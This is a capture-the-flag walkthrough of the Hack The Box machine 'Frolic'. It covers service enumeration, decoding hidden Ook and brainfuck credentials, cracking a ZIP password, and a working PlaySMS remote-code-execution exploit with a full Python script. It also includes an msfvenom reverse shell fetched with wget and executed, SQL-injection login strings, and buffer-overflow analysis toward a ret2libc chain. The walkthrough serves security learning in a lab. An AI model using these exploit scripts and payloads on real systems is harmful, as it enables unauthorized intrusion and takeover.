# [Frolic](https://app.hackthebox.eu/machines/158)

Start with `nmap`:

```bash
# TCP deep scan
sudo nmap -sS --script "default,safe" -p1-65535 -oA tcp --open -Pn -sV 10.10.10.111 &
# UDP deep scan
sudo nmap -sU --script "default" -p1-65535 -oA udp --open -Pn -sV 10.10.10.111 &
# TCP quick scan
sudo nmap -sS -sC -F --open -Pn -sV 10.10.10.111
# UDP quick scan
sudo nmap -sU -sC -F --open -Pn -sV 10.10.10.111
```

The TCP quick scan returns the following:


The website at `http://10.10.10.111:9999/` has the following landing page:


The address of `http://frolic.htb:1880` is unique. Add `forlic.htb` to `/etc/hosts` and try to visit the address:

```bash
sudo sh -c "echo '10.10.10.111\tforlic.htb' >> /etc/hosts"
```


Okay, so now there is a website. Start the following scanners in the background:

```bash
dirb http://forlic.htb:1880/ -r 
nikto -h http://forlic.htb:1880/ --maxtime=30s
```

While those run, try logging into the website with some default logins & SQL injection for a login bypass:

| Username    | Password   |
| ----------- | ---------- |
| `admin`     | `admin`    |
| `admin`     | `password` |
| `' or 1=1#` | `password` |
| `" or 1=1#` | `password` |

No easy wins :disappointed: Next scan the Samba SMB service for any open shares:

```bash
ip=10.10.10.111
for share in $(smbclient -N -L //$ip | grep Disk | sed 's/^[ \t]*//g' | cut -d ' ' -f 1); 
do 
  echo "-- \\\\$ip\\$share --";
  smbclient -N \\\\$ip\\$share -c 'ls;quit'; 
done
```


Only one open share and no open access is allowed. Next try and connect through NetBIOS:

```bash
rpcclient -N 10.10.10.111       # NULL session
rpcclient -U '' -N 10.10.10.111 # empty username and password
querydispinfo                   # list users
enumdomusers                    # list users
enumdomgroups                   # list groups
enumdomains                     # list domains
querydominfo                    # domain info
lsaquery                        # get SIDs
lsaenumsid                      # get SIDs
lookupsids <sid>                # lookup SID by SID
lookupnames <username>          # lookup SID by username
```


Not much luck here besides getting the local usernames of `sahay` and `ayush`. This is done by using the fact that the machine is running Ubuntu Linux (from the `nmap` verison output for SSH) and will have a user `root`. Then taking the SID of `root` and abusing the knowledge that Ubuntu users start with a UID of 1000 for the first user by default.

- https://askubuntu.com/questions/659953/what-is-ubuntus-automatic-uid-generation-behavior

Next try to scan the default nginx site?

```bash
dirb http://10.10.10.111:9999/ -r 
nikto -h http://10.10.10.111:9999/ --maxtime=30s
```

`dirb` returns some interesting results:


Browsing to `/admin` shows the following:


Okay, now this is progress. Looking at the HTML source code shows a single JavaScript file `js/login.js` with the following content:

```javascript
var attempt = 3; // Variable to count number of attempts.
// Below function Executes on click of login button.
function validate(){
  var username = document.getElementById("username").value;
  var password = document.getElementById("password").value;
  if ( username == "admin" && password == "superduperlooperpassword_lol"){
    alert ("Login successfully");
    window.location = "success.html"; // Redirecting to other page.
    return false;
  }
  else{
    attempt --;// Decrementing by one.
    alert("You have left "+attempt+" attempt;");
    // Disabling fields after 3 attempts.
    if( attempt == 0){
      document.getElementById("username").disabled = true;
      document.getElementById("password").disabled = true;
      document.getElementById("submit").disabled = true;
      return false;
    }
  }
}
```

Browsing to `http://10.10.10.111:9999/admin/success.html` has the following raw content:

```
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... ..... ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! ..... ..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!! !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... ..... ..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?. ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... ..... ..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!! !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!! !!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?! .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?.. !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.? !!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!! !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!! !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. ..... ..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!! !!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... ..... ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! ..... ..!.! !!!!! !.?. 
```

Maybe this is stenography? looking at `http://10.10.10.111:9999/backup/` from `dirb` shows the following:



Maybe this is a simple local file inclusion? Browsing to the following URLs gives another credential pair:

- `http://10.10.10.111:9999/backup/user.txt` returns `user - admin`
- `http://10.10.10.111:9999/backup/password.txt` returns `password - imnothuman`

Not much else to see, moving on... After **much** Googling, the `.!?` output is OOK :mask: :

- https://www.dcode.fr/ook-language

Decoding the stub using the above website returns the following: `Nothing here check /asdiSIAJJ0QWE9JAS`. Browsing to that page returns what looks like Base64 encoded output:

```
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwAB BAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbs K1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmve EMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTj lurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkC AAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUG AAAAAAEAAQBPAAAAAwEAAAAA
```

When [decoding this](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=VUVzREJCUUFDUUFJQU1PSk4wMGovbHNVc0FBQUFHa0NBQUFKQUJ3QWFXNWtaWGd1Y0dod1ZWUUpBQU9GZktkYmhYeW5XM1Y0Q3dBQiBCQUFBQUFBRUFBQUFBRjVFNWhCS24zT3lhSW9wbWh1VlVQQnVDNm0vVTNQa0FrcDNHaEhjanVXZ05PTDIyWTlyN25yUUVvcFZ5SmJzIEsxaTZmK0JReU9FUzRiYUhwT3JRdStKNFh4UEFUb2xiL1kyRVU2cnFPUEtEOHVJUGtVb3lVOGNxZ3dORTBJMTlremhrVkE1UkFtdmUgRU1yWDQrVDdhbCtmaS9rWTZaVEFKM2gvWTVEQ0Z0MlBkTDZ5TnpWUnJBdWFpZ01PbFJCckF5dzB0ZGxpS2I0MFJyWHBCZ24vdW9UaiBsdXJwNzhjbWNUSnZpRmZVbk9NNVVFc0hDQ1ArV3hTd0FBQUFhUUlBQUZCTEFRSWVBeFFBQ1FBSUFNT0pOMDBqL2xzVXNBQUFBR2tDIEFBQUpBQmdBQUFBQUFBRUFBQUNrZ1FBQUFBQnBibVJsZUM1d2FIQlZWQVVBQTRWOHAxdDFlQXNBQVFRQUFBQUFCQUFBQUFCUVN3VUcgQUFBQUFBRUFBUUJQQUFBQUF3RUFBQUFB), the output looks like the following in a hexdump:

```
00000000  50 4b 03 04 14 00 09 00 08 00 c3 89 37 4d 23 fe  |PK........Ã.7M#þ|
00000010  5b 14 b0 00 00 00 69 02 00 00 09 00 1c 00 69 6e  |[.°...i.......in|
00000020  64 65 78 2e 70 68 70 55 54 09 00 03 85 7c a7 5b  |dex.phpUT....|§[|
00000030  85 7c a7 5b 75 78 0b 00 01 04 00 00 00 00 04 00  |.|§[ux..........|
00000040  00 00 00 5e 44 e6 10 4a 9f 73 b2 68 8a 29 9a 1b  |...^Dæ.J.s²h.)..|
00000050  95 50 f0 6e 0b a9 bf 53 73 e4 02 4a 77 1a 11 dc  |.Pðn.©¿Ssä.Jw..Ü|
00000060  8e e5 a0 34 e2 f6 d9 8f 6b ee 7a d0 12 8a 55 c8  |.å 4âöÙ.kîzÐ..UÈ|
00000070  96 ec 2b 58 ba 7f e0 50 c8 e1 12 e1 b6 87 a4 ea  |.ì+Xº.àPÈá.á¶.¤ê|
00000080  d0 bb e2 78 5f 13 c0 4e 89 5b fd 8d 84 53 aa ea  |лâx_.ÀN.[ý..Sªê|
00000090  38 f2 83 f2 e2 0f 91 4a 32 53 c7 2a 83 03 44 d0  |8ò.òâ..J2SÇ*..DÐ|
000000a0  8d 7d 93 38 64 54 0e 51 02 6b de 10 ca d7 e3 e4  |.}.8dT.Q.kÞ.Ê×ãä|
000000b0  fb 6a 5f 9f 8b f9 18 e9 94 c0 27 78 7f 63 90 c2  |ûj_..ù.é.À'x.c.Â|
000000c0  16 dd 8f 74 be b2 37 35 51 ac 0b 9a 8a 03 0e 95  |.Ý.t¾²75Q¬......|
000000d0  10 6b 03 2c 34 b5 d9 62 29 be 34 46 b5 e9 06 09  |.k.,4µÙb)¾4Fµé..|
000000e0  ff ba 84 e3 96 ea e9 ef c7 26 71 32 6f 88 57 d4  |ÿº.ã.êéïÇ&q2o.WÔ|
000000f0  9c e3 39 50 4b 07 08 23 fe 5b 14 b0 00 00 00 69  |.ã9PK..#þ[.°...i|
00000100  02 00 00 50 4b 01 02 1e 03 14 00 09 00 08 00 c3  |...PK..........Ã|
00000110  89 37 4d 23 fe 5b 14 b0 00 00 00 69 02 00 00 09  |.7M#þ[.°...i....|
00000120  00 18 00 00 00 00 00 01 00 00 00 a4 81 00 00 00  |...........¤....|
00000130  00 69 6e 64 65 78 2e 70 68 70 55 54 05 00 03 85  |.index.phpUT....|
00000140  7c a7 5b 75 78 0b 00 01 04 00 00 00 00 04 00 00  ||§[ux...........|
00000150  00 00 50 4b 05 06 00 00 00 00 01 00 01 00 4f 00  |..PK..........O.|
00000160  00 00 03 01 00 00 00 00                          |........|
```

The output has some ASCII values like `index.php` in it but is not readable text. Next thing to look for is file format magic signatures to see if this is a binary file:

- https://en.wikipedia.org/wiki/List_of_file_signatures

The `PK` signature at the beginning of the file likely signals a ZIP file. Pulling this file down and extracting it shows the following:

```bash
wget http://10.10.10.111:9999/asdiSIAJJ0QWE9JAS/ -O file.b64
cat file.b64 | base64 -d > file.zip
file file.zip
unzip file.zip
```



Looks like the ZIP file requires a password. Currently the following are known:

- `admin/imnothuman`
- `admin/superduperlooperpassword_lol`

Using these passwords does not work... Next try to brute force the login?

```bash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
zip2john file.zip > zip.hash
john -w=./rockyou.txt zip.hash
```


LOL :rofl: the password is `password`. After extracting `index.php` from the ZIP archive, it has the following contents:

```
4b7973724b7973674b7973724b7973675779302b4b7973674b7973724b7973674b79737250463067506973724b7973674b7934744c5330674c5330754b7973674b7973724b7973674c6a77720d0a4b7973675779302b4b7973674b7a78645069734b4b797375504373674b7974624c5434674c53307450463067506930744c5330674c5330754c5330674c5330744c5330674c6a77724b7973670d0a4b317374506973674b79737250463067506973724b793467504373724b3173674c5434744c53304b5046302b4c5330674c6a77724b7973675779302b4b7973674b7a7864506973674c6930740d0a4c533467504373724b3173674c5434744c5330675046302b4c5330674c5330744c533467504373724b7973675779302b4b7973674b7973385854344b4b7973754c6a776743673d3d0d0a
```

This looks like hex. Decoding it with Python returns even MORE base64 looking data...

```python
import os
import binascii
with open('index.php') a f:
  print(binascii.unhexlify(f.read().strip()).decode())
  
# returns the following:
# KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKy4tLS0gLS0uKysgKysrKysgLjwr
# KysgWy0+KysgKzxdPisKKysuPCsgKytbLT4gLS0tPF0gPi0tLS0gLS0uLS0gLS0tLS0gLjwrKysg
# K1stPisgKysrPF0gPisrKy4gPCsrK1sgLT4tLS0KPF0+LS0gLjwrKysgWy0+KysgKzxdPisgLi0t
# LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS0tLS4gPCsrKysgWy0+KysgKys8XT4KKysuLjwgCg==
```

This [decodes](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)&input=S3lzckt5c2dLeXNyS3lzZ1d5MCtLeXNnS3lzckt5c2dLeXNyUEYwZ1Bpc3JLeXNnS3k0dExTMGdMUzB1S3lzZ0t5c3JLeXNnTGp3cgpLeXNnV3kwK0t5c2dLenhkUGlzS0t5c3VQQ3NnS3l0YkxUNGdMUzB0UEYwZ1BpMHRMUzBnTFMwdUxTMGdMUzB0TFMwZ0xqd3JLeXNnCksxc3RQaXNnS3lzclBGMGdQaXNyS3k0Z1BDc3JLMXNnTFQ0dExTMEtQRjArTFMwZ0xqd3JLeXNnV3kwK0t5c2dLenhkUGlzZ0xpMHQKTFM0Z1BDc3JLMXNnTFQ0dExTMGdQRjArTFMwZ0xTMHRMUzRnUENzckt5c2dXeTArS3lzZ0t5czhYVDRLS3lzdUxqd2dDZz09) to the following gibberish:

```
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..< 
```

After **even more** Googling, the `+-[]<>` output is brainfuck  :mask: :

- https://www.dcode.fr/brainfuck-language

Using the above decoder, the output is `idkwhatispass`. NONE of these passwords work for the Node-Red interface using the known users `admin`/`sahay`/`ayush`...

Next thing to try is scan the found directories from `http://10.10.10.111:9999/` with `gobuster` to the next directory level:

- `dirb` is not background process friendly, so using `gobuster` here

```bash
# install scanner
sudo apt install gobuster
# prevent file access error during scanning
ulimit -n 8192
# run scans
gobuster dir -t 50 -q -z -o dev.txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.10.10.111:9999/dev/ &
gobuster dir -t 50 -q -z -o admin.txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.10.10.111:9999/admin/ &
gobuster dir -t 50 -q -z -o test.txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.10.10.111:9999/test/ &
gobuster dir -t 50 -q -z -o backup.txt \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -u http://10.10.10.111:9999/backup/ &
```

The results for `/dev` have some new results:


The `/dev/test` directory returns a file with the content `test`. The `/dev/backup` returns a page with `/playsms`. Browsing to `http://10.10.10.111:9999/playsms ` shows the following:



Yay! Another login portal... Welp there are quite a few possible password combinations to try here:

- `admin/admin`
- `admin/password`
- `admin/superduperlooperpassword_lol`
- `admin/imnothuman`
- `admin/idkwhatispass`

The credentials `admin/idkwhatispass` work and show the following page:


With a valid login, try a search for exploits:



So this PlaySMS service may be vulnerable. Looking at exploit 42038, it seems to require a user account created at `http://10.10.10.111:9999/playsms/index.php?app=main&inc=core_auth&route=register`. However, after trying to create a user, the following error is given:


Next look at 42044. It requires a valid login and then uploading a CSV containing PHP code that is directly inserted into a target page. However, due to restrictions, the PHP code executed is sent in the HTTP User-Agent field. This can be quickly tested with BurpSuite. Spin up BurpSuite and set FireFox in Kali to use Burp as a proxy (127.0.0.1:8080) and disable Proxy intercept in Burp at Proxy > Intercept. To test the exploit, do the following:

- Login with `admin/idkwhatispass`

- Navigate to:

  - http://10.10.10.111:9999/playsms/index.php?app=main&inc=feature_phonebook&route=import&op=list

- Make a `test.csv` with the following content:

  ```
  Name,Mobile,Email,Group code,Tags
  "<?php $a=$_SERVER['HTTP_USER_AGENT']; system($a); ?>",69,,,
  ```

- **Enable intercept in Burp at this point**

- Upload it

This generates the following request in Burp:


Change the User-Agent string here to `echo "BUBBA"` and foward the request. It should return the following:


Nice! this is remote code execution. This process can be scripted out in Python:

```python
import re
import sys
import random
import requests

if len(sys.argv) != 2:
  print(f'usage: python3 {sys.argv[0]} "<PHP-command>"')
  exit(-1)

PAYLOAD = f'echo "BUBBA-{random.randint(1000,9999)}";' + sys.argv[1]
CSV = """Name,Mobile,Email,Group code,Tags
"<?php $a=$_SERVER['HTTP_USER_AGENT'];system($a);?>",69,,,"""
TARGET = 'http://10.10.10.111:9999/playsms/'
LOGIN_URI = 'index.php?app=main&inc=core_auth&route=login'
IMPORT_URI = 'index.php?app=main&inc=feature_phonebook&route=import'
HEADERS = {
  'User-Agent': 'bubba'
}
PARAMS = {
  'username': 'admin',
  'password': 'idkwhatispass',
}
PROXY = {
  # use BurpSuite proxy to test payload
  #'http': 'http://127.0.0.1:8080'
}

# start a session to get the PHPSESSID cookie & X-CSRF-Token value
s = requests.session()
r = s.get(TARGET + LOGIN_URI, headers=HEADERS, proxies=PROXY)
# get values from response
print(f"[*] PHPSESSID = {s.cookies['PHPSESSID']}")
csrf = re.findall(r'name="X-CSRF-Token" value="(.*)"', r.text)
if not csrf:
  print("[-] did not find X-CSRF-Token")
  exit(-1)
print(f"[*] Login X-CSRF-Token = {csrf[0]}")
# login with custom User-Agent
PARAMS['X-CSRF-Token'] = csrf[0]
print(f"[*] logging in as '{PARAMS['username']}' with '{PARAMS['password']}' ...")
s.post(TARGET + LOGIN_URI + '&op=login', data=PARAMS, headers=HEADERS, proxies=PROXY)
# get X-CSRF-Token for CSV upload
r = s.get(TARGET + IMPORT_URI + '&op=list', headers=HEADERS, proxies=PROXY)
csrf = re.findall(r'name="X-CSRF-Token" value="(.*)"', r.text)
if not csrf:
  print("[-] did not find X-CSRF-Token")
  exit(-1)
print(f"[*] Import X-CSRF-Token = {csrf[0]}")
# upload CSV with PAYLOD in the User-Agent header
HEADERS['User-Agent'] = PAYLOAD
print(f"[*] executing payload: {PAYLOAD}")
r = s.post(TARGET + IMPORT_URI + '&op=import', headers=HEADERS, proxies=PROXY, files={
  'X-CSRF-Token': (None, csrf[0]),
  'fnpb': ('bubba.csv', CSV, 'text/csv')
})
print(f"[*] finding output ...")
out = re.findall(r'<td>BUBBA-\d{4}(.*?)</td>', r.text, re.S)
if not out:
  print("[-] did not find output")
  exit(-1)
print(out[0])
```

Running this generates the following:


Next, use this basic remote command execution to get a dedicated shell:

```bash
# check that remote target has wget
python3 exploit.py 'which wget' # returns /usr/bin/wget
# generate the payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.23 \
         LPORT=6969 \
         –e x86/shikata_ga_nai \
         -i 9 \
         -f elf > bubba.elf
# host the payload on port 7777
python3 -m http.server 7777
# listen for callback
nc -nvlp 6969
# send command to target
python3 exploit.py 'wget http://10.10.14.23:7777/bubba.elf -P /tmp/ && chmod +x /tmp/bubba.elf && /tmp/bubba.elf &'
```

This returns a dedicated shell that can be upgraded to a PTY shell:



Next get `user.txt`:

```bash
find / -iname user.txt -type f -exec ls -lad {} \; 2>/dev/null
```


During enumeration, looking for SUID binaries returns an interesting result:

```bash
find / -perm -u=s -type f -exec ls -lad {} \; 2>/dev/null
```



The binary seems to just echo a message:


Looking at strings in the binary, there is an indication that there is a buffer overflow:



Transfer the file from the target using base64 & copy/paste:

```bash
 # run on target and copy output
 cat /home/ayush/.binary/rop | base64
 # run on kali with target's output in rop.64 file
 cat rop.b64 | base64 -d > rop
 chmod +x rop
```

Setup [Ghidra](https://ghidra-sre.org/) to reverse engineer the binary:

```bash
wget https://ghidra-sre.org/ghidra_9.1.2_PUBLIC_20200212.zip
unzip ghidra_9.1.2_PUBLIC_20200212.zip
sudo apt install openjdk-11-jdk
cd ghidra_9.1.2_PUBLIC/
./ghidraRun
```

After creating a new non-shared project and importing the binary, the `main()` function looks like the following in the disassembly window:



The function `vuln()` is interesting. Its disassembly is the following:



Okay so there is a buffer overflow in the stack of `vuln()`. The stack buffer is 48 characters long and Ghidra shows the following stack layout for the function `vuln()`:



Since this binary is x86, an input of 48 characters will fill the buffer (not including the NULL byte). Add 4 more and the `ebp` of `main()` is overwritten. Add 4 more and the return address for `eip` in `main()` is overwritten. Next, test the theory. Setup the environment for GDB:

```bash
# install GDB
sudo apt install gdb
# disable memory randomization
sudo sh -c 'echo "kernel.randomize_va_space = 0" >> /etc/sysctl.conf'
sudo sysctl -p
```

Then run the binary and break before and right after the call to `strcpy()`:

```bash
gdb ./rop
disass vuln
break *vuln+16
break *vuln+21
run $(python -c "print('A'*47)")
x/60x $eax
s
x/60x $eax
```


Notice how `eax` is pushed onto the stack as the first argument for `strcpy()`. Looknig at the memory contents for `eax` before and after the call to `strcpy()` shows the following:



This shows that the 48 character buffer (with a NULL byte) ends right before `0xffffd4b8` which has the `ebp` for `main()`. The address 4 bytes above that (`0xffffd4bc`) has the value `0x080484e6`. Looking at the disassembly of `main()` shows that address is right after the call to `vuln()`, which is as expected.


Now that the overflow offsets are finalized, check for shellcode locations with the following Bash function `checksec`:

- Pulled from `checksec.sh`: https://www.trapkit.de/tools/checksec.html
- https://bitvijays.github.io/LFC-BinaryExploitation.html

```bash
function checksec() {
  # check for RELRO support
  if readelf -l $file 2>/dev/null | grep -q 'GNU_RELRO'; then
    if readelf -d $file 2>/dev/null | grep -q 'BIND_NOW'; then
      echo -e '\033[32mFull RELRO\033[m'
    else
      echo -e '\033[33mPartial RELRO\033[m'
    fi
  else
    echo -e '\033[31mNo RELRO\033[m'
  fi
  # check for stack canary support
  if readelf -s $file 2>/dev/null | grep -q '__stack_chk_fail'; then
    echo -e '\033[32mStack canary found\033[m'
  else
    echo -e '\033[31mNo stack canary found\033[m'
  fi
  # check for NX support
  if readelf -W -l $file 2>/dev/null | grep 'GNU_STACK' | grep -q 'RWE'; then
    echo -e '\033[31mNX disabled\033[m'
  else
    echo -e '\033[32mNX enabled\033[m'
  fi 
  # check for PIE support
  if readelf -h $file 2>/dev/null | grep -q 'Type:[[:space:]]*EXEC'; then
    echo -e '\033[31mNo PIE\033[m'
  elif readelf -h $file 2>/dev/null | grep -q 'Type:[[:space:]]*DYN'; then
    if readelf -d $file 2>/dev/null | grep -q '(DEBUG)'; then
      echo -e '\033[32mPIE enabled\033[m'
    else   
      echo -e '\033[33mDSO\033[m'
    fi
  else
    echo -e '\033[33mNot an ELF file\033[m'
  fi 
  # check for run path
  if readelf -d $file 2>/dev/null | grep -q 'rpath'; then
   echo -e '\033[31mRPATH set\033[m'
  else
   echo -e '\033[32mNo RPATH set\033[m'
  fi
  if readelf -d $file 2>/dev/null | grep -q 'runpath'; then
   echo -e '\033[31mRUNPATH set\033[m'
  else
   echo -e '\033[32mNo RUNPATH set\033[m'
  fi
}
```

Running this on the binary `rop` shows the following:



So NX being enabled means there is no code execution on the stack... Since PIE is disabled, there is no need to try and bypass ASLR. The simplest option here is to try and find a ROP gadget that returns to libc to spawn a shell. To get the address of this function, run the following on the target:

```bash
libc=$(ldd /home/ayush/.binary/rop | grep libc.so | sed 's/^[ \t]*//g' | cut -d ' ' -f 3)
echo $libc
ldd /home/ayush/.binary/rop
readelf -s $libc | grep system
readelf -s $libc | grep exit
strings -a -t x $libc | grep /bin/sh
```

This output shows the needed information to generate the ROP chain to run the following C code:

```c
exit(system("/bin/sh"));
```

